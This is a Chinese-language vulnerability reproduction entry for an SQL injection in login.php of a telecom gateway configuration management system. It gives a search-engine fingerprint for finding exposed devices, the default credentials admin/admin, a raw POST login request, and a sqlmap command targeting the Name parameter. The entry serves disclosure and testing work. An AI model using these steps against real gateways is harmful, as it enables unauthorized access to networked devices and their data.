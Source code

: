 # 

# 电信 网关配置管理系统 login.php SQL注入漏洞

## 漏洞描述

电信网关配置管理系统 前台登陆页面用户名参数存在SQL注入漏洞

## 漏洞影响

```
电信网关配置管理系统
```

## 网络测绘

```
body="src="img/dl.gif"" && title="系统登录"
```

## 漏洞复现

登录页面如下



![](./images/202202140923586.png)

设备存在默认弱口令 **admin/admin**

![](./images/202202140924953.png)

登录的请求包为

```plain
POST /manager/login.php HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Length: 53
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.128 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=2lfi6enp5gehalrb92594c80i6
Connection: close

Name=admin&Pass=admin
```

保存为文件使用 Sqlmap工具，注入点为 **Name参数**

```plain
sqlmap -r sql-1.txt -p Name --risk 3
```

![](./images/202202140924004.png)

#
